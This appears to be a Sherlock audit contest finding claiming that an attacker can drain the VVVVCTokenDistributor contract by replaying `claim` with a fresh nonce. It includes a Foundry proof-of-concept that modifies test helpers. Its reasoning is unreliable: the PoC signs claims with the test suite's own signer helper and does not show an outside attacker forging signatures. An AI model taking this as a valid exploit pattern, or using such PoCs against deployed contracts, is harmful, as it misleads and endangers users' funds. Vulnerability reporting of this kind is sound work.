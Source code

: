 Fluffy Gauze Porcupine

High

# attacker can steal all fund

### Summary

attacker can steal all fund by call `claim` function many times 

### Root Cause

an attacker can call `claim` many times by rebuild ClaimParams ,

```solidity
if (_params.nonce <= nonces[_params.kycAddress]) {
            revert InvalidNonce();
        }
``` 
the function will revert when the `nonce` < `nonces[_params.kycAddress]` which is updated here,
```solidity
// update nonce
        nonces[_params.kycAddress] = _params.nonce;
```
since attacker konw the `nonces[_params.kycAddress]` he can rebuild a valid Signature by change 
`_params.nonce` and `_params.deadline`
 then call `claim` again and again. 
https://github.com/sherlock-audit/2024-11-vvv-exchange-update/blob/1791f41b310489aaa66de349ef1b9e4bd331f14b/vvv-platform-smart-contracts/contracts/vc/VVVVCTokenDistributor.sol#L106C5-L145C6

### External pre-conditions

_No response_

### Attack Path

_No response_

### Impact

lose of funds

### PoC

edit `claimAsUser` inside `VVVVCTestBase.sol` with this so we can startPrank as attacker 

```solidity
function claimAsUser(address _claimant, VVVVCTokenDistributor.ClaimParams memory _params) public {
        //vm.startPrank(_claimant, _claimant);
        TokenDistributorInstance.claim(_params);
        //vm.stopPrank();
    }
```

and change `testFuzz_ClaimSuccess` with this

```solidity
function testFuzz_ClaimSuccess(
        address _callerAddress,
        address _kycAddress,
        uint256 _seed,
        uint256 _length
    ) public {
        vm.assume(_callerAddress != address(0));
        vm.assume(_kycAddress != address(0));
        vm.assume(_seed != 0);
        vm.assume(_length != 0);

        uint256 maxLength = 100;
        uint256 arrayLength = bound(_length, 1, maxLength);

        address[] memory projectTokenProxyWallets = new address[](arrayLength);
        uint256[] memory tokenAmountsToClaim = new uint256[](arrayLength);

        uint256 totalClaimAmount = 0;

        for (uint256 i = 0; i < arrayLength; i++) {
            projectTokenProxyWallets[i] = address(
                uint160(uint256(keccak256(abi.encodePacked(_callerAddress, i))))
            );

            tokenAmountsToClaim[i] = bound(_seed, 0, 1000 * 1e18);
            totalClaimAmount += tokenAmountsToClaim[i];

            // Mint tokens to the proxy wallet and approve the distributor
            ProjectTokenInstance.mint(projectTokenProxyWallets[i], tokenAmountsToClaim[i]*2); //@audit * 2 so we can call claim twice
            vm.prank(projectTokenProxyWallets[i]);
            //@audit we can approve type(uint256).max 
            ProjectTokenInstance.approve(address(TokenDistributorInstance), tokenAmountsToClaim[i]*2);
        }

        uint256 balanceBefore = ProjectTokenInstance.balanceOf(_callerAddress);

        VVVVCTokenDistributor.ClaimParams memory claimParams = generateClaimParamsWithSignature(
            _kycAddress,
            projectTokenProxyWallets,
            tokenAmountsToClaim
        );

        // Attempt to claim
        address attacker = makeAddr("attacker");
        vm.startPrank(attacker);
        //claimAsUser(_callerAddress, claimParams);
        TokenDistributorInstance.claim(claimParams);
       
        //@audit try to reclaim again cuz we know the nonce ! ;) 
        VVVVCTokenDistributor.ClaimParams memory claimParams2 = generateClaimParamsWithSignature(
            _kycAddress,
            projectTokenProxyWallets,
            tokenAmountsToClaim
        );
        TokenDistributorInstance.claim(claimParams2);
        
        
        // Check if the total claimed amount matches expected
        //assertTrue(ProjectTokenInstance.balanceOf(_callerAddress) == balanceBefore + totalClaimAmount);
    }
```

### Mitigation

_No response_